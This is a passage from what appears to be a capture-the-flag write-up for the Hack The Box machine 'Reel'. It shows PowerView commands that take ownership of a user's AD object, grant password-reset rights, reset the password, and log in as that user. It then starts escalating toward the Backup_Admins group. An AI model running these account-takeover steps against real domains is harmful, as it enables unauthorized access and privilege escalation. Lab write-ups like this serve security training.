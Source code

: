 Next, I’ll set tom as the owner of claire’s ACL:

```powershell
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainObjectOwner -identity 
claire -OwnerIdentity tom
```

Next, I’ll give tom permissions to change passwords on that ACL:

```powershell
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdent
ity claire -PrincipalIdentity tom -Rights ResetPassword 
```

Now, I’ll create a credential, and then set claire’s password:

```powershell
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $cred = ConvertTo-SecureString "
qwer1234QWER!@#$" -AsPlainText -force         

PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword -identity
 claire -accountpassword $cred 
```

Now I can use that password to ssh in as claire:

```kotlin
┌──(kali㉿kali)-[~/htb]
└─$ ssh claire@10.10.10.77                       
claire@10.10.10.77's password:

Microsoft Windows [Version 6.3.9600]                                         
(c) 2013 Microsoft Corporation. All rights reserved.                         

claire@REEL C:\Users\claire>
```

I got `claire`'s shell!



# Privesc to `Backup Admins`

From the analysis before, I know that claire has WriteDacl rights on the Backup_Admins group. I can use that to add her to the group. First, see that the only member of the group is ranj:

```powershell
claire@REEL C:\Users\claire>net group backup_admins                          
Group name     Backup_Admins                                                 
Comment                                                                      

Members                                                                      

-----------------------------------------------------------------------------
--                                                                           
ranj                                                                         
The command completed successfully.  
```
